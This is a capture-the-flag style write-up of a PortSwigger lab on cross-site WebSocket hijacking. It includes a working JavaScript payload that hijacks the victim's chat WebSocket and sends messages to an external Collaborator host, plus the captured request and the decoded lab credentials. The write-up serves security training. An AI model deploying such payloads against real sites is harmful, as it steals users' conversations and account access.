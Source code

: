 ```yaml
---
title: Cross-site WebSocket hijacking
description: PortSwigger WebSocket Lab
---
```

This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.

## Discovery
Cookie has flag `SameSite` None:
![](../../../../public/images/PS_WebSocket_20250612%20_140352.png)

WebSocket URL

![](../../../../public/images/PS_WebSocket_20250612%20_135103.png)

## Exploit
![](../../../../public/images/PS_WebSocket_20250612%20_135733.png)

Body:
```html
<script>
	const ws = new WebSocket('wss://0a8900fb031399ca80a4bcd1000d00d7.web-security-academy.net/chat');
	
	ws.onopen = () => {ws.send("READY");};

	ws.onmessage = (event) =>{
			fetch('https://ji5wquk74q1phgmguczhiy0wrnxel49t.oastify.com?msg=' + btoa(event.data));
  };
</script>
```

Request to Collaborator
```http
GET /?msg=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3MgamdmbzNraWUxZ2Vta2NtaHcwMDMifQ== HTTP/1.1
Host: ji5wquk74q1phgmguczhiy0wrnxel49t.oastify.com
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
sec-ch-ua-platform: "Linux"
Accept: */*
Origin: https://exploit-0a9a00ab033f996c80a1bb4a01c400ac.exploit-server.net
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://exploit-0a9a00ab033f996c80a1bb4a01c400ac.exploit-server.net/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9

```

Base64: `eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3MgamdmbzNraWUxZ2Vta2NtaHcwMDMifQ==`

Decoded:
```json
{
	"user":"Hal Pline",
	"content":"No problem carlos, it&apos;s jgfo3kie1gemkcmhw003"
}
```

### User
`carlos:jgfo3kie1gemkcmhw003`